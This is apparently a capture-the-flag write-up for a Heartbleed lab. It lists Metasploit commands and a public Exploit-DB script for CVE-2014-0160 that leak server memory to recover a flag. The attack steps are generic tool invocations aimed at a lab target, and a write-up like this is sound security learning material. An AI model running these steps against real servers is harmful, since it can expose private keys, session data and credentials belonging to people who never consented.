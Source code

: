 # HeartBleed

## In this task, you need to obtain a flag using a very well-known vulnerability. Make sure you pay attention to all the information and errors displayed. Pay particular attention to how web servers are configured.

### What is the flag?

Hint: `https://<ip>`

1. Exploit vulnerability using Metasploit

```Bash
msfconsole -q
search heartbleed
use 4
```

[SCREEN01]

```Bash
set rhosts <IP>
set verbose true
run
```

[SCREEN02]

2. Get the flag from message

[SCREEN03]

### Alternative way:

1. Run the [CVE 2014-0160](https://www.exploit-db.com/exploits/32745) (Remember to set scrollback to 'Unlimited')

```Bash
python 32745.py <IP> -p 443
```

[SCREEN04]
[SCREEN05]
